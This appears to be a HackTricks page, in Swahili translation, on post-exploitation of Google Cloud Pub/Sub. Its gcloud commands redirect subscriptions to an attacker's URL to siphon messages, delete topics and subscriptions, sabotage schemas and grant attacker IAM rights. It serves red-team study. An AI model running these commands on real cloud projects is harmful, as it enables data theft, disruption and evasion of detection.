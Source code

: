 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pub/Sub

Kwa maelezo zaidi kuhusu Pub/Sub angalia ukurasa ufuatao:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Chapisha ujumbe katika mada, muhimu kwa **kutuma data zisizotarajiwa** na kuanzisha kazi zisizotarajiwa au kutumia udhaifu:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Inatumika kuzuia usajili kupokea ujumbe, labda ili kuepuka kugundulika.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Inatumika kuzuia usajili kupokea ujumbe, labda ili kuepuka kugundulika.\
Inawezekana kufuta mada hata ikiwa na usajili ulioambatanishwa nayo.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Tumia ruhusa hii kuboresha mipangilio ya mada ili kuharibu, kama `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Jipe ruhusa ya kufanya mashambulizi yoyote ya hapo awali.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Pata ujumbe wote katika seva ya wavuti:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Unda usajili na uitumie **kuchota ujumbe**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Kufuta usajili** kunaweza kuwa na manufaa kuharibu mfumo wa usindikaji wa kumbukumbu au kitu kinachofanana:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Tumia ruhusa hii kuboresha mipangilio ili ujumbe uhifadhiwe mahali unapoweza kufikia (URL, Big Query table, Bucket) au tu kuharibu hiyo.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Jipe ruhusa zinazohitajika ili kutekeleza mashambulizi yoyote yaliyojadiliwa hapo awali.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Shambulia muundo kwa mada ili ujumbe usifanye kazi nayo na hivyo mada ikose kuendelea.\
Ikiwa hakuna muundo, huenda ukahitaji kuunda mmoja.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Hii inaweza kuonekana kama kufuta muundo lakini utaweza kutuma ujumbe ambao haukidhi muundo. Hata hivyo, kwa kuwa muundo utafutwa, hakuna ujumbe utakaoweza kuingia ndani ya mada. Hivyo hii ni **HAINA MANUFA**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Jipe ruhusa zinazohitajika kutekeleza mashambulizi yoyote yaliyojadiliwa hapo awali.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Hii itaunda picha ya ujumbe wote ambao hawajakubaliwa na kuwarudisha kwenye usajili. Si ya manufaa sana kwa mshambuliaji lakini hapa iko:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

